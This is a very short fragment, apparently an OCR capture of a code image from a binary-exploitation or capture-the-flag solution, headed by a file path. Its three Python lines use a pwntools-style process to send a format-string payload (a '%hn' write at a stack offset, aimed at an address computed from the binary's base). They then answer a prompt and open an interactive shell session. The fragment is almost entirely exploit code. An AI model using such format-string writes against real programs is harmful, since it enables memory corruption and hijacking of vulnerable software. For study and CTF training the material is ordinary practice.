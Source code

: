 ```
p.sendlineafter(b'something: ', f'%{(exe.address + 0x360) & 0xffff}c%38$hn')
p.sendlineafter(b'> ', b'y' )

p.interactive()


```




 
